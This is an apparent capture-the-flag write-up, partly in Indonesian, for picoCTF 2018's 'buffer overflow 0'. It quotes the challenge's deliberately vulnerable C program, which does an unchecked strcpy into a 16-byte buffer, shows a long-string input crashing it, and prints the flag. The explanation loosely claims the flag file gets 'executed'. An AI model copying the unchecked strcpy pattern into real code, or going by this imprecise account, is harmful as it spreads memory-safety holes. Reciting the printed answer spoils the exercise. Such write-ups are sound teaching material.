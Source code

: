 <h1><b>buffer overflow 0</h1></b>
<pre>
Let's start off simple, can you overflow the right buffer in this <a href='https://2018shell.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln'>program</a> to get the flag? 
You can also find it in /problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631 on the shell server. <a href='https://2018shell.picoctf.com/static/3149816cf3615fa68f99af3cd667d6b9/vuln.c'>Source</a>.
</pre>
</b><h3>Solution</h3></b>
<p>Jika dilihat dari sourcenya, sebagai berikut</p>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```
<p>Kelemahannya yaitu overflow, ketika kita menginput suatu string yang panjangnya lebih dari yang diminta program yaitu 16 bytes, maka file flag.txt akan otomatis ter-eksekusi dan mendapatkan flagnya walaupun kondisi permision denied</p>

```console
root@Python:/home/venom/Downloads# ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}

root@Python:/home/venom/Downloads# 
```
</b><h3>Flag</h3></b>
<pre>
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
</pre>
